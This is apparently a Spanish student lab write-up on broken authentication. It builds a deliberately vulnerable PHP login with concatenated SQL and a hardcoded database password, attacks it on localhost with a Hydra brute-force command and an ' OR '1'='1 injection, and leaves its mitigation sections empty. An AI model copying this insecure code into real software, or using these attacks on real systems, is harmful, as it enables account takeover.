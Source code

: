 # PPS-Unidad3Actividad12-AdrianCurtoSanchez

## Creación de la Base de Datos

Acedemos a php myadmin a través de la URL http://localhost:8080/.
![alt text](images/php-myadmin-login.png)

Accedemos a la pestaña SQL donde introducimos la siguiente sentecia SQL para crear la base de datos que contendra las credenciales de acceso:
```
CREATE DATABASE SQLi;
USE SQLi;
CREATE TABLE usuarios (
	id INT AUTO_INCREMENT PRIMARY KEY,
	usuario VARCHAR(50) NOT NULL,
	contrasenya VARCHAR(100) NOT NULL
);
INSERT INTO usuarios (usuario, contrasenya) VALUES ('admin', '1234'), ('usuario', 'password');
```

![alt text](images/create-databse.png)



## Código vulnerable

Creamos el archivo login_weak.php con el siguiente contenido:
```
<?php
// creamos la conexión 
$conn = new mysqli("database", "root", "tiger", "SQLi");

if ($conn->connect_error) {
        // Excepción si nos da error de conexión
        die("Error de conexión: " . $conn->connect_error);
}
if ($_SERVER["REQUEST_METHOD"] == "POST" || $_SERVER["REQUEST_METHOD"] == "GET") {
        // Recogemos los datos pasados
        $username = $_REQUEST["username"];
        $password = $_REQUEST["password"];

        print("Usuario: " . $username . "<br>");
        print("Contraseña: " . $password . "<br>");

        // preparamos la consulta
        $query = "SELECT * FROM usuarios WHERE usuario = '$username' AND contrasenya = '$password'";
        print("Consulta SQL: " . $query . "<br>");

        //realizamos la consulta y recogemos los resultados
        $result = $conn->query($query);
        if ($result->num_rows > 0) {
        echo "Inicio de sesión exitoso";
        } else {
                echo "Usuario o contraseña incorrectos";
        }
}
$conn->close();

?>
<form method="post">
        <input type="text" name="username" placeholder="Usuario">
        <input type="password" name="password" placeholder="Contrasenya">
        <button type="submit">Iniciar Sesión</button>
</form>
```

![alt text](images/login_weak-file.png)

Accedemos a la siguiente URL http://localhost/broke_authentication/login_weak.php?username=admin&password=1234

![alt text](images/login-weak.png)

## Explotación de vulnerabilidades de Autenticación Débil

### Ataque de fuerza bruta con Hydra

Realizamos un ataque con Hydra desde Kali Linux ejecutando el siguiente comando:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-post-form "/broke_authentication/login_weak.php:username=^USER^&password=^PASS^:Usuario o contraseña incorrectos"
```
![alt text](images/hydra.png)

Vemos en verde las credenciales que ha encontrado.

## Explotación de SQL Injection

Al introducir las credenciales:
```
usuario: admin
contraseña: ' OR '1'='1
```

Vemos que obtenemos las credenciales.

![alt text](images/login-weak-sqlinjection.png)


## Mitigación: Código Seguro en PHP

### Uso de contraseñas cifradas con password_hash

## Uso de consultas preparadas


## Implementar autenticación multifactor (MFA)
